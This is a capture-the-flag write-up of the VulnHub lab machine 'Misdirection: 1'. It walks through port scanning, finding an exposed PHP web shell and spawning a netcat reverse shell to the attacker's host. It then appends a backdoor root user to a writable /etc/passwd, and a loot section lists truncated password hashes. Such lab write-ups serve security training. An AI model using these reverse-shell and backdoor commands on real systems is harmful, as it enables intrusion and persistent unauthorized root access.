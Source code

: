 [VulnHub] Misdirection: 1
===============
date: 11/Oct/2019
summary: This is a writeup for VulnHub machine Misdirection: 1.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_misdirection1/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_misdirection1/killchain.png.webp)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.29 ((Ubuntu))`: [exploit_php_webshell](https://github.com/7h3rAm/writeups#exploit_php_webshell), [exploit_bash_reverseshell](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [privesc_sudoers](https://github.com/7h3rAm/writeups#privesc_sudoers), [privesc_passwd_writable](https://github.com/7h3rAm/writeups#privesc_passwd_writable)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_misdirection1/openports.png.webp)  

3\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
```
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)
```

4\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_misdirection1/screenshot00.png.webp)  

### Findings
#### Open Ports
```
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
```
http://192.168.92.187:8080/debug
```
#### Users
```
ssh: root, brexit
```

## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
```
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot01.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot02.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
```
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot03.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot04.png.webp)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_misdirection1/screenshot05.png.webp)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_misdirection1/screenshot06.png.webp)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_misdirection1/screenshot07.png.webp)  

![writeup.privesc.steps.1.6](/static/files/posts_vulnhub_misdirection1/screenshot08.png.webp)  

![writeup.privesc.steps.1.7](/static/files/posts_vulnhub_misdirection1/screenshot09.png.webp)  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
```
cat /root/root.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_misdirection1/screenshot10.png.webp)  

## Loot
### Hashes
```
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
```
0d2c6222bfdd3701e0fa12a9a.......
```

## References
* <https://www.vulnhub.com/entry/misdirection-1,371/>  
* <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
